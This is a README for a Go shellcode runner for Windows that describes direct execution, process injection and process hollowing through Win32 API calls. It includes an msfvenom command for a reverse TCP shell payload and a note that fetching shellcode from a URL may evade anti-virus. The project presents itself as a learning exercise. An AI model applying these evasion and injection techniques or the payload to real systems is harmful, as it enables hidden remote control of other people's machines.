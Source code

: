 # Golang (Windows) Shellcode Runner

A small project I put together to help me understand the concepts behind process injection, hollowing and running lots of win32 API calls directly from Go using just the syscall library.

Hopefully the code is easy to understand, even though its all this low level nonsense with uintptr etc.

## Specifying Shellcode

Shell code to run can be specified one of three ways: directly on the args via `-i`, from a file via `-f`, or from a url with `-u`. This last option is useful as the shellcode will never be written to disk, possibly bypassing anti-virus.

> Shellcode this has been tested with on Windows 11 was created with msfvenom: `msfvenom -p windows/x64/shell_reverse_tcp LHOST=127.0.0.1 PORT=4444 EXITFUNC=thread -f raw -o msfvenom_reversetcp_4444.txt` and then it was run via `-f msfvenom_reversetcp_4444.txt`.

## Modes of Operation

The shellcode can be run in one of three ways: directly, via process injection, or via process hollowing

### Direct Execution

This is the default option if `-p` or `-e` are not specified. The following APIs will be invoked:

- **VirtualAlloc** to create some memory space in the runner process
- **RtlMoveMemory** to copy the shellcode into this space
- **CreateThread** to start a thread to run the shellcode
- **WaitForSingleObject** to keep the process alive until the thread exits

This mode can be useful for debugging shellcode; add an `int3` to your assembly, attach to the runner process and go!

### Process Injection

Provide a process ID with `-p`. The process must be one you either created or otherwise have the rights to mess with. I tested with notepad, grabbing its PID from task manager.

The following APIs are invoked to run the shellcode inside the target process:

- **OpenProcess** to get the process information
- **VirtualAllocEx** to allocate some memory inside the process for the shellcode
- **WriteProcessMemory** to write the shellcode inside this space
- **CreateRemoteThread** to tell the process to run the shellcode with a new thread

The shellcode runner (this go project) doesn't need to be kept alive in this mode, and so will exit.

### Process Hollowing

Provide an executable path with `-e` - I tested using svchost, with the path `c:\\windows\\system32\\svchost.exe`. svchost in particular, if not run as system, will immediately exit when run. But process hollowing launches it suspended and then replaces its code with the shellcode, like a parasite :D

The following APIs are invoked in this mode:

- **CreateProcessA** to start a new process. The flag 0x4 is passed to start it suspended, just before it would run its code.
- **ZwQueryInformationProcess** to get the address of the process's PEB (process environment block)
- **ReadProcessMemory** to query the PEB for the image base address
- **ReadProcessMemory** again to read from the image base address (loading in the PE header for example)
- **WriteProcessMemory** to overwrite the memory from the code base address with shellcode
- **ResumeThread** to restart the suspended process, triggering the shellcode.

As with process injection, the go shellcode runner will exit once the thread is resumed.
